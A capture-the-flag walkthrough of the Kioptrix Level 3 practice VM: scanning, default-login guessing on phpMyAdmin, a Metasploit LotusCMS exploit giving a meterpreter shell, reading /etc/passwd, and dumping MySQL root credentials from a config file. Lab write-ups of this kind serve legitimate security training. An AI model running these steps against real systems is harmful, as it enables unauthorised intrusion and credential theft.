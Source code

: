 # Kioptrix Level 3

### Contents

Our target network is `10.0.2.0/24`.

# Footprinting
Find the IP address of the target host via:

```bash
netdiscover -r 10.0.2.0/24
```

For the purpose of this guide we will assume our target is at IP address **10.0.2.9**.

As per the instructions we modify `/etc/hosts` so our target is at **kioptrix3.com**.
# Reconnaisance

We perform an initial scan as follows:

```bash
nmap 10.0.2.9
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
MAC Address: 08:00:27:50:6F:FB (Oracle VirtualBox virtual NIC)
```

Let's check for UDP ports:

```bash
nmap -sU 10.0.2.9
```

Let's do version detection:
```bash
nmap -O 10.0.2.9
```

```
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
```

Now we proceed by examining each of the services on the machine.
Starting with the most interesting.

# HTTP

```bash
nikto -host kioptrix3.com
```

We find a **phpmyadmin** page.

## phpMyAdmin

```
+ Server: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
+ Retrieved x-powered-by header: PHP/5.2.4-2ubuntu5.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ PHP/5.2.4-2ubuntu5.6 appears to be outdated (current is at least 5.6.9). PHP 5.5.25 and 5.4.41 are also current.
+ Apache/2.2.8 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Server leaks inodes via ETags, header found with file /favicon.ico, inode: 631780, size: 23126, mtime: Fri Jun  5 15:22:00 2009
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 7444 requests: 0 error(s) and 19 item(s) reported on remote host
+ End Time:           2019-03-06 11:22:36 (GMT-5) (46 seconds)
```

When we navigate to the admin console via the browser we find we try the following:

```
root:
admin:admin
':
```

This works and we are logged in as `'@localhost`.

The console gives the following information:

```
Server version: 5.0.51a-3ubuntu5.4
phpMyAdmin - 2.11.3deb1ubuntu1.3
MySQL client version: 5.0.51a
```

We can see the following database:
```
information_schema
```
However, at this stage we are unable to use any SQL injection at our current low privilege level.

## LotusCMS

Browsing around the site we can see a blog and a login portal.

The portal states that it is:
> Proudly running on LotusCMS

A simple `searchsploit` on this CMS reveals the following:
https://www.rapid7.com/db/modules/exploit/multi/http/lcms_php_exec.

We used Metasploit to gain a meterpreter shell like follows:

```
use exploit/multi/http/lcms_php_exec
set RHOST kioptrix3.com
set URI /index.php?system=Admin
exploit
```

```
meterpreter > getuid
Server username: www-data (33)

meterpreter > cat /etc/passwd
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
```

Looking at the PHP files we can see some of the config files. Of interest is `gconfig.php` which contains some GLOBALS:

```PHP
$GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";
$GLOBALS["gallarific_mysql_server"] = "localhost";
$GLOBALS["gallarific_mysql_database"] = "gallery";
$GLOBALS["gallarific_mysql_username"] = "root";
$GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```
